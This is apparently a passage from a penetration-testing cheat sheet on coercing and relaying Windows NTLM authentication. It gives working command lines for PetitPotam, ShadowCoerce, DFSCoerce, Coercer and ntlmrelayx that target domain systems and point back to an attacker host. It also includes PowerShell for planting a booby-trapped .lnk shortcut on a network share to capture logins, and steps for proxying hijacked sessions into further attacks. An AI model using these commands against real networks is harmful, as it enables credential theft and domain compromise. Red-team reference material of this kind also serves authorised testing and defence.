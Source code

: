 	- SMB relay:
		- \([C2\-Tool\-Collection-BOF](https://github.com/outflanknl/C2-Tool-Collection)\): `PetitPotam <own ip> <target system ip>`
		- \([PetitPotam](https://github.com/topotam/PetitPotam)\): `python3 Petitpotam.py -u <username> -p <password> -d <FQDN> <own ip> <target system to relay>`
		- \([Invoke\-PetitPotam](https://github.com/S3cur3Th1sSh1t/Creds/blob/master/PowershellScripts/Invoke-Petitpotam.ps1)\): `Invoke-PetitPotam <FQDN target system> <ip connect back system> (<username> <password>)`
	- WebDAV relay: 
		- \([PetitPotam](https://github.com/topotam/PetitPotam)\): `python3 Petitpotam.py -u <username> -p <password> -d <FQDN> <Responder machine name>@80/test <FQDN target system>`
		- \([Invoke\-PetitPotam](https://github.com/S3cur3Th1sSh1t/Creds/blob/master/PowershellScripts/Invoke-Petitpotam.ps1)\): `Invoke-PetitPotam <FQDN target system> '<machine name to connect back to (e.g. responder machine name)>@80/test'`
- ShadowCoerce \(MS\-FSRVP\): the coerced authentications are made over SMB\ and it is required that the "File Server VSS Agent Service" is enabled on the target server:
    - SMB relay: \(execute at least 2x\) \([ShadowCoerce](https://github.com/ShutdownRepo/ShadowCoerce)\): `python3 shadowcoerce.py -d "<domain>" -u "<user>" -p "<password>" <own ip> <target ip>`
- DFSCoerce (MS-DFSNM): the coerce technique only works on domain controllers:
	- SMB relay \([DFSCoerce](https://github.com/Wh04m1001/DFSCoerce)\): `python3 dfscoerce.py -u <username> -d <FQDN> <own IP> <target DC IP>`
- Automatically coerce a Windows server to authenticate on an arbitrary machine through multiple of the above methods.
    - Coerce over SMB \([Coercer](https://github.com/p0dalirius/Coercer)\): `./coercer.py -d '<FQDN>' -u '<username>' -p '<password>' --listener <own ip> --target <target ip>`
    - Coerce over WebDav (Coercer): `./coercer.py -d '<FQDN>' -u '<username>' -p '<password>' --webdav-host <responder machine name> --target <target ip>`

#### _Coerce NTLM connection via Windows shortcut:_
To coerce a request, create a Windows shortcut \(\.lnk\) with the icon set to a UNC path of the attacker host, place it in a network share and wait for a user to browse that share to trigger the SMB request\. Use Responder or NLTMrelayx to capture the request\. 
- 1\. Start any capture or relay technique with Responder and/or ntlmrelayx\. 
- 2\. Search for network shares that are accessible for most authenticated users 
- 3\. Create a shortcut with an icon set to an UNC path that is pointing to the relay server:
	- 1: `$wsh = new-object -ComObject wscript.shell`
	- 2\. Change location to locally save the lnk file: `$shortcut = $wsh.CreateShortcut("C:\Payloads\test.lnk")`
	- 3\. Change the IP so it points to your relay server/pivot host: `$shortcut.IconLocation = "\\10.10.17.231\test.ico"`
	- 4: `$shortcut.Save()`
- 4\. Upload and place the \.lnk file in an open network share that is frequently used\.

#### _Capture authentication and keep session alive:_
This technique intercepts and keeps valid authenticated sessions alive\. The sessions can either be intercepted by Responder or manually coerced via techniques like PetitPotam\. This makes it possible to proxy attacks that require credentials through the client session and make it authenticated\. Multiple protocols are supported \(e\.g\. smb, ldap, mssql\). 
- 1\. Start ntlmrelayx and specify the system to which the session will be forwarded to \([impacket](https://github.com/SecureAuthCorp/impacket)\): `python3 ntlmrelayx.py -smb2support -t <IP target host> -smb2support -socks`
- 2\. Use any technique to intercept \(e\.g\. Responder\) or coerce \(e\.g\. PetitPotam\) an authenticated request\.
- 3\. Ones a session is captured by ntlmrelayx:
	- 1\. In the ntlmrelayx tool cli:
		- 1\. Check what type of session is captured: `socks`
		- 2\. Stop all running services but keep the proxied connection alive: `stopservers`
	- 2\. Modify '/etc/proxychains4\.conf' and set proxy settings to ‘socks4 127\.0\.0\.1 1080’\.
- 4\. use any authenticated tool \(e\.g\. smbclient\) or privilege escalation technique \(e.g. RBCD \+ weblclient\) in combination with proxychains to conduct an authenticated attack \(specify as 'domain/username' the 'domain/username' of the captured session and if possible use an option like '\-no\-pass' or use a blank password\)\. As an example, PetitPotam is used leveraging the captured session privileges: `proxychains4 python3 Petitpotam.py -d <domain> -u <relayed computer name (e.g. DC01)>\$ <Responder Machine Name>@80/test <FQDN target system>`